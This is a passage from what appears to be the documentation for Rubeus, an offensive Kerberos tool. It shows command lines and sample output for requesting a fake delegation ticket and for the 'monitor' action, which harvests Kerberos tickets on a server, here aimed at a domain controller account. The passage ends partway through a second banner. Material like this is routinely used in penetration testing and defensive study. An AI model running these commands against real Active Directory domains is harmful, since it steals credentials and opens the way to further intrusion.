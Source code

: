     C:\Rubeus>Rubeus.exe tgtdeleg

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3


    [*] Action: Request Fake Delegation TGT (current user)

    [*] No target SPN specified, attempting to build 'HOST/dc.domain.com'
    [*] Initializing Kerberos GSS-API w/ fake delegation for target 'HOST/PRIMARY.testlab.local'
    [+] Kerberos GSS-API initialization success!
    [+] Delegation requset success! AP-REQ delegation ticket is now in GSS-API output.
    [*] Found the AP-REQ delegation ticket in the GSS-API output.
    [*] Authenticator etype: aes256_cts_hmac_sha1
    [*] Extracted the service ticket session key from the ticket cache: YnEFxPfqw3LdfNvLtdFfzaFf7zG3hG+HNjesy+6R+ys=
    [+] Successfully decrypted the authenticator
    [*] base64(ticket.kirbi):

        doIFNjCCBTKgAwIBBaEDAgEWoo...(snip)...


### monitor

The **monitor** action will periodically extract all TGTs every `/monitorinterval:X` seconds (default of 60) and display any newly captured TGTs. A `/targetuser:USER` can be specified, returning only ticket data for said user. This function is especially useful on servers with unconstrained delegation enabled ;)

When the `/targetuser:USER` (or if not specified, any user) creates a new 4624 logon event, any extracted TGT KRB-CRED data is output.

The `/nowrap` flag causes the base64 encoded ticket output to no wrap per line.

Further, if you wish to save the output to the registry, pass the `/registry` flag and specfiy a path under HKLM to create (e.g., `/registry:SOFTWARE\MONITOR`). Then you can remove this entry after you've finished running Rubeus by `Get-Item HKLM:\SOFTWARE\MONITOR\ | Remove-Item -Recurse -Force`.

    c:\Rubeus>Rubeus.exe monitor /targetuser:DC$ /interval:10

       ______        _
      (_____ \      | |
       _____) )_   _| |__  _____ _   _  ___
      |  __  /| | | |  _ \| ___ | | | |/___)
      | |  \ \| |_| | |_) ) ____| |_| |___ |
      |_|   |_|____/|____/|_____)____/(___/
